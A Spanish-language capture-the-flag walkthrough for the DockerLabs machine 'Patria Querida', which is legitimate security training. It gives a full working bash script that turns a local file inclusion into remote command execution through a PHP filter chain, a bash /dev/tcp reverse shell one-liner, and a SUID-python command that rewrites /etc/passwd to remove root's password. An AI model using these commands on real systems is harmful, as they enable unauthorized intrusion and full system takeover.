



Máquina **Patria Querida** de [DockerLabs](https://dockerlabs.es)

Autor: [JuanR](https://github.com/JuanAntonioRodriguez68)

Dificultad: Fácil



# Intrusión

Comenzamos con un escaneo de `nmap` para ver los puertos abiertos de la maquina:

```css
nmap -sSVC -p- --open --min-rate 5000 -Pn -n -vvv -oN escaneo.txt 172.17.0.2
```

```ruby
# Nmap 7.95 scan initiated Wed Jan 15 17:06:47 2025 as: nmap -sSVC -p- --open --min-rate 5000 -Pn -n -vvv -oN escaneo.txt 172.17.0.2
Warning: Hit PCRE_ERROR_MATCHLIMIT when probing for service http with the regex '^HTTP/1\.1 \d\d\d (?:[^\r\n]*\r\n(?!\r\n))*?.*\r\nServer: Virata-EmWeb/R([\d_]+)\r\nContent-Type: text/html; ?charset=UTF-8\r\nExpires: .*<title>HP (Color |)LaserJet ([\w._ -]+)&nbsp;&nbsp;&nbsp;'
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000019s latency).
Scanned at 2025-01-15 17:06:48 -03 for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e1:b8:ce:5c:65:5a:75:9e:ed:30:7a:2b:b2:25:47:6b (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDKkyizWSTER54TY7KZCdb8kueEQyUAKAqEkNN1VhJNU8DPLxemuQqP+jA6TPzXEOhjHkL9Oz2PY9OsWyCujEZIazOuNfJah1g+km+okxWB8N+5M/MyOJlUAS8RqXQpGk4pN/EizZ3HE5cudhLQKeRVgxvkUqlZrYCmJCDrL+dWKQ4CPrTkQMCPGbZEl34/s/k1/jvGe0VqjcUkm58vZcudWE5QHTV3ERRJOmVMxNqNX76Dw6qLQE4u5IRfu1FxPV7AzK/G2I8ePSJF/fMEmFM9uQmjrfNWGvZOAR2OoewYi2uWUsdeoWuEHLOP1qcvx1ufN594Ldk6/QghmTo+8a/3XhWiROUZrt4cfYcChls47m/IDVVkiRmqNamRy4xNt0R1NYf/TUu8YpC6SqAI/6AoVV5L60NtxQgyNDJF1fxftooj0yrnoOZdqxhpikw22TdDuIy40X+jW8LTkmNk40s7xNi7bVuxedht1KQc2k0JSpVsMkBxDo29XYvEe0+kAyU=
|   256 a3:78:9f:44:57:0e:15:4f:15:93:59:d0:04:89:a9:f4 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJNO/pg+LjKvQ6IT2SMLSJx18e8aLMbYhtSmYNbrXaYurwIHY+Hlv9XfKyM6B0nSxCsbcczFTTmnaiFp6o4pVE8=
|   256 5a:7a:89:3c:ed:da:4a:b4:a0:63:d3:ba:04:39:c3:a4 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHlgHdpwW9DEFpCur7zj9irE/H4BUsFVUUSlJf5eOwKh
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan 15 17:06:56 2025 -- 1 IP address (1 host up) scanned in 9.16 seconds
```

Vemos 2 puertos abiertos:

•`Puerto 22: OpenSSH 8.2p1`

•`Puerto 80: Apache httpd 2.4.41`

#### Puerto 80

Al entrar desde el navegador, vemos una web que no contiene nada interesante ya que es la web default de apache, por lo que procederemos haciendo fuzzing con `feroxbuster`:

```css
feroxbuster -u "http://172.17.0.2/" -w directory-list-2.3-medium.txt -x php,html,txt
```

```css
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://172.17.0.2/
 🚀  Threads               │ 50
 📖  Wordlist              │ directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, html, txt]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET        1l       12w      110c http://172.17.0.2/index.php
200      GET      375l      964w    10918c http://172.17.0.2/index.html
[#>------------------] - 9s     50278/882200  2m      found:2       errors:0      
[#>------------------] - 9s     50176/882180  5655/s  http://172.17.0.2/  
```

vemos un index.php un poco extraño ya que en la web ya existe un index.html.

Al entrar a la web no veo nada interesante, por lo que procedo a fuzzear parametros en el index.php usando `ffuf`:

```css
ffuf -u "http://172.17.0.2/index.php?FUZZ=/etc/passwd" -w directory-list-2.3-medium.txt -fw 12
```

```css

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.17.0.2/index.php?FUZZ=/etc/passwd
 :: Wordlist         : FUZZ: directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 12
________________________________________________

page                    [Status: 200, Size: 1367, Words: 11, Lines: 27, Duration: 0ms]
:: Progress: [1/1] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```

podemos ver que existe el parametro "page" el cual al ponerlo en la web veremos que este tiene la vulnerabilidad LFI:



también si probamos un php wrapper como "file://", podremos ver que también muestra el archivo. Sabiendo esto, podemos utilizar la herramienta [php filter chain generator](https://github.com/synacktiv/php_filter_chain_generator) para poder ejecutar un comando de manera remota.

# Intrusión

#### Bash Scripting

En mi caso, cree un script en bash que facilita la ejecución del comando:

```bash
#!/bin/bash


url=$1
parametro=$2


if [ $# != 2 ]; then
  echo -e "\e[1;32mUso: <URL-VULNERABLE> <PARAMETRO-DE-LFI>\e[0m\n"
  echo -e "\e[1;31mEjemplo: 'http://192.168.56.102/vulnerable.php' 'page'\e[0m"
  exit 1
fi

encode(){

encoded=$(python3 -c "import urllib.parse; print(urllib.parse.quote('$1'))")

}

exec_command(){


chain='php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.iconv.ISO-IR-103.850|convert.iconv.PT154.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp'

curl "$1?cmd=$2&$3=$chain" --output ejecucion > /dev/null &>/dev/null


}


salir(){
exit 1
}


trap salir SIGINT


while true; do
  echo -ne "\e[1;31mEscriba el comando a ejecutar: \e[0m"
  read comando
  

  encode "$comando"
  exec_command $url $encoded $parametro
  
  echo -e "\e[1;32m"
  strings ejecucion
  echo -e "\e[0m"
  rm ejecucion
done
```

lo ejecutamos de la siguiente manera:

```css
bash chain_command.sh 'http://172.17.0.2/index.php' 'page'
```

cuando nos salga el siguiente prompt:

```css
Escriba el comando a ejecutar: 

```

podremos ejecutar cualquier comando.

#### Reverse Shell

Nos ponemos en escucha con `netcat`:

```css
nc -nlvp 7070
```

y en el script ejecutamos esto:

```css
bash -c "bash -i >& /dev/tcp/172.17.0.1/7070 0>&1"
```

una vez ejecutado, estaremos dentro de la máquina como "www-data".

# Escalada De Privilegios

### www-data

Comenzamos buscando binarios con el bit SUID activado:

```css
find / -perm -4000 2>/dev/null
```

```css
/usr/bin/python3.8
```

Como vemos, python se encuentra con el bit SUID activado, por lo que podriamos escalar ejecutando el siguiente comando:

```css
/usr/bin/python3.8 -c 'import os; os.setuid(0);os.system("sed s/root:x:/root::/g /etc/passwd -i")' && su
```

### Root



Gracias por leer ;)
